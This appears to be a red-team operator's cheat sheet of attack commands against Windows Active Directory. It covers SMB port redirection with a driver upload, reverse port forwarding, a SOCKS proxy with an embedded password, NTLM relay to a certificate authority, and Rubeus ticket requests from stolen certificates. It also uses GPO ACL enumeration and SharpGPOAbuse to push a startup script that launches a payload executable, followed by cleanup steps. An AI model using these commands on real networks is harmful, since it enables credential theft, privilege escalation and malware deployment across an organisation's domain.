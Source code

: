 `cd C:\Windows\System32\Drivers`
`upload PortBender\WinDivert64.sys`
`PortBender redirect 445 8445`
`rportfwd 8445 localhost 445`
`socks 1080 socks5 disableNoAuth john S@lcianaszkot23 enableLogging`

`sudo proxychains ntlmrelayx.py -t https://[ca]/certsrv/certfnsh.asp -smb2support --adcs --no-http-server`
[[#Forcing NTLM Authentication]]

`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:[user] /certificate:[base64] /enctype:aes256 /opsec /nowrap`
[[#S4U2Self]]

Cleanup
`powershell Remove-NetFirewallRule -DisplayName "8445-In"`

`jobs`
`jobkill [jid]`
`kill [pid]`

`rportfwd stop 8445`
`socks stop`
## Group Policy
#### Modify Existing GPO
`powerpick Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "[domain sid]-[\d]{4,10}" }`

- **GPO:** `powerpick Get-DomainGPO -Identity "[objectdn]" | select displayName, gpcFileSysPath`
- **Security ID:** `ConvertFrom-SID [securityidentifier]`
- **Links:** `Get-DomainOU -GPLink "{[objectdn (only section in {})]}" | select distinguishedname`
- **Computers:** `Get-DomainComputer -SearchBase "[links]" | select dnsHostName`
**Security ID** can write to **GPO**, which affects **Computers**

[[#Serving Payload Internally (SMB)]]
`execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b [share]\dns_x64.exe" --GPOName [gpo]`
#### Create and Link a GPO

Requirements
1. control of a principal that can create GPOs
2. GPO can be linked to an OU (an OU grants WriteProperty over GP-Link)

Check Requirement 1
`powerpick Get-DomainObjectAcl -Identity "CN=Policies,CN=System,[domain (dn notation)]" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }`

Check Requirement 2
`powerpick Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl`
GPO can be linked to **ObjectDN** by **SecurityIdentifier**
